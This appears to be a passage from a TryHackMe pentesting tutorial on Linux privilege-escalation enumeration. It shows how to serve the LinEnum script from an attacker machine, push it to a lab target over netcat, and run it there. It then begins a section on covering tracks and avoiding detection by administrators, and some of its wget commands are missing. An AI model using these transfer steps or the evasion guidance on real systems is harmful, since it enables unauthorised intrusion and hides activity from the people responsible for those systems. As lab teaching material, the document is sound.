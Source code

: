 >>Fortunately for us, there are many enumeration scripts available to use that automate some of the enumeration processes for us. We can download these onto our own machine and use a few methods to upload them to our vulnerable target instance. Bear in mind that vulnerable target Instances that you deploy on TryHackMe do not have internet access, so we must use our own attacking machine that is connected to the THM network.

>>A great script that is essential to anyone's toolkit is "LinEnum" that is available for download from here. LinEnum enumerates the target machine for us, detailing and collating useful information such as kernel versions, permissions to any executables or files that are outside of the users home directory - and a whole plethora more!

>>The problem with this? It's easy to get lost within it all. Enumeration scripts often return lots of information that is often not all that useful to us; It's important to understand how these enumeration scripts work so as not to rely on them. However, these scripts make privilege escalation that much more approachable for beginners.

 * Let's download the LinEnum script to our own machine using wget:

 * Let's use Python3 to turn our machine into a web server to serve the LinEnum.sh script to be downloaded onto the target machine. Make sure you run this command in the same directory that you downloaded LinEnum.sh to: 

 python3 -m http.server 8080

 * We need to upload this to the vulnerable Instance (MACHINE_IP) whilst ensuring that our own device is connected to the THM network. There are many ways this can be done which will depend on the vulnerable Instance you are attacking; the vulnerable Instance may not have tools such as wget, so alternatives will need to be used.

 * Navigate to a directory that we will have write permission to. The /tmp directory allows all users to write to it - so we will use this.

 * Using wget on the vulnerable Instance:

 * Using netcat:

 * Setup netcat on the vulnerable Instance to listen for an incoming file: nc -l -p 1337 > LinEnum.sh

 * Setup netcat on our own machine to send a file: nc -w -3 MACHINE_IP 1337 < LinEnum.sh

 * Add the execution permission to LinEnum.sh on the vulnerable Instance: chmod +x LinEnum.sh

 * Execute LinEnum.sh on the vulnerable Instance: ./LinEnum.sh

----

# Covering our Tracks
----

>>The final stages of penetration testing involve setting up persistence and covering our tracks. For today's material, we'll detail the later as this is not mentioned nearly enough.

>>During a pentesting engagement, you will want to try to avoid detection from the administrators & engineers of your client wherever within the permitted scope of the pentesting engagement. Activities such as logging in, authentication and uploading/downloading files are logged by services and the system itself.
